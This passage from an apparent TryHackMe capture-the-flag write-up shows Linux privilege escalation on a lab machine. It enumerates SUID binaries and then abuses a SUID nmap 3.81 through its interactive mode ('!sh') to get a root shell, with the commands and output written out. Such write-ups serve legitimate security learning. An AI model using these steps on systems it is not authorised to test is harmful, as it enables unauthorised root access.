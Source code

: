     [?] In this case, is there any way to cd root ?
    
    - We can check if it has **Privilege Escalation**
- **Privilege Escalation**
    - Find all directory have SUID (**SetUID**). For more detail, `SetUID(s): Allows users to execute files with owner permissions.`
    
    ```
    robot@linux:/$ find / -d -perm /4000 2>/dev/null
    find / -d -perm /4000 2>/dev/null
    /bin/ping
    /bin/umount
    /bin/mount
    /bin/ping6
    /bin/su
    /usr/bin/passwd
    /usr/bin/newgrp
    /usr/bin/chsh
    /usr/bin/chfn
    /usr/bin/gpasswd
    /usr/bin/sudo
    /usr/local/bin/nmap
    /usr/lib/openssh/ssh-keysign
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
    /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
    /usr/lib/pt_chown
    
    ```
    
    - Look at the hint on tryhackme, it says nmap
    - After researching, we know that Nmap can be interactive to spawn a shell because it is 3.81 version. However, The interactive mode, only available on versions 2.02 to 5.21, can be used to execute shell commands.
    
    ```
     robot@linux:/$ nmap --version
    nmap --version
    
    nmap version 3.81 ( http://www.insecure.org/nmap/ )
    ```
    
    - Next, i search nmap spawn a shell and it shows  this website https://gtfobins.github.io/gtfobins/nmap/.
    
    ```
    robot@linux:/$ nmap --interactive
    nmap --interactive
    
    Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
    Welcome to Interactive Mode -- press h <enter> for help
    nmap> !sh
    !sh
    # whoami
    whoami
    root
    